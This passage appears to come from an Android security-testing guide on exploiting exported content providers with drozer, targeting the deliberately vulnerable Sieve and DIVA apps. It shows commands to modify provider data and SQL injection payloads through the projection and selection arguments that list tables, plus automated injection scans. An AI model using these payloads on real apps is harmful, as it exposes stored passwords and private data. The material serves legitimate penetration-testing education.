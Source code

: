 Quering the database you will learn the **name of the columns**, then, you could be able to insert data in the DB:

![[../../../images/image (98).png]]

![[../../../images/image (173).png]]

_Note that in insert and update you can use --string to indicate string, --double to indicate a double, --float, --integer, --long, --short, --boolean_

### Update content

Knowing the name of the columns you could also **modify the entries**:

![[../../../images/image (780).png]]

### Delete content

![[../../../images/image (423).png]]

### **SQL Injection**

It is simple to test for SQL injection **(SQLite)** by manipulating the **projection** and **selection fields** that are passed to the content provider.\
When quering the Content Provider there are 2 interesting arguments to search for information: _--selection_ and _--projection_:

![[../../../images/image (784).png]]

You can try to **abuse** this **parameters** to test for **SQL injections**:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "*
FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... |
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
```

**Automatic SQLInjection discovery by Drozer**

```
dz> run scanner.provider.injection -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Injection in Projection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/

dz> run scanner.provider.sqltables -a jakhar.aseem.diva
Scanning jakhar.aseem.diva...
Accessible tables for uri content://jakhar.aseem.diva.provider.notesprovider/notes/:
  android_metadata
  notes
  sqlite_sequence
```